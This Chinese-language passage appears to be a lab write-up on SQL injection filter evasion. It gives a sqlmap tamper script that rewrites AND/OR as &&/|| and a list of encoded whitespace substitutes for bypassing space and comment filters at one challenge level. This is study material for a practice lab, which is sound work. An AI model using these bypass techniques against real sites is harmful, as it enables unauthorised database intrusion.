 

***Q：我不需要编码请求中的字符，只需要包括将AND替换为&&***

***A：***如果你只想简单地将`AND`替换为`&&`，而不进行其他字符编码或转换，你可以使用自定义的绕过脚本。以下是一个简单的绕过脚本示例，它将替换查询中的`AND`为`&&`：

```python
def tamper(payload, **kwargs):
    payload = payload.replace("AND", "&&")
    payload = payload.replace("OR", "||")
    return payload
```

将上述代码保存为`and_to_double_amp.py`（或任何你喜欢的名称），然后在SQLMap中使用`--tamper`选项指定该脚本的路径：

```
sqlmap -u <目标URL> --tamper and_to_double_amp.py
```

这将应用自定义的绕过脚本，将`AND`替换为`&&`。







#### 第二十六关

注释符以及空格给过滤了

我们需要使用单引号进行闭合，双写绕过逻辑运算符或者使用`&&`和`||`替换。空格绕过网上找了些资料，对于绕过空格限制有大把的方式对于空格，有较多的方法：

```
%09 TAB键（水平）
%0a 新建一行
%0c 新的一页
%0d return功能
%0b TAB键（垂直）
%a0 空格
```

我在windows和kali里面都用不了，可能是因为apache解析不了。只能使用()绕过。报错注入空格使用比较少所以我们可以使用报错注入。

























## 疑问

